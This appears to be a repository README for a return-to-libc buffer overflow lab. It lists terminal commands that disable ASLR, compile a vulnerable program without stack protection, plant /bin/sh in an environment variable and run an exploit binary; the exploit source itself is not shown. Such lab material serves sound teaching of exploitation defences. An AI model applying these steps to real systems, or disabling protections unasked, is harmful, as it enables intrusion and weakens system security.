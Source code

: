 Execute the commands in order to reproduce the Return-to-libc buffer overflow attack (Linux terminal):
(The video illustrates step-by-step parts of the attack)

sudo sysctl -w kernel.randomize_va_space=0

cat vulnerable.c

sudo gcc -m32 -fno-stack-protector -z noexecstack -o vulnerable vulnerable.c

export MYSHELL=/bin/sh

env | grep MYSHELL

cat shelladdr.c

sudo gcc -m32 -fno-stack-protector -z noexecstack -o shelladdr shelladdr.c

./shelladdr

gdb vulnerable

sudo gcc -m32 -fno-stack-protector -z noexecstack -o exploit exploit.c

./exploit

./vulnerable
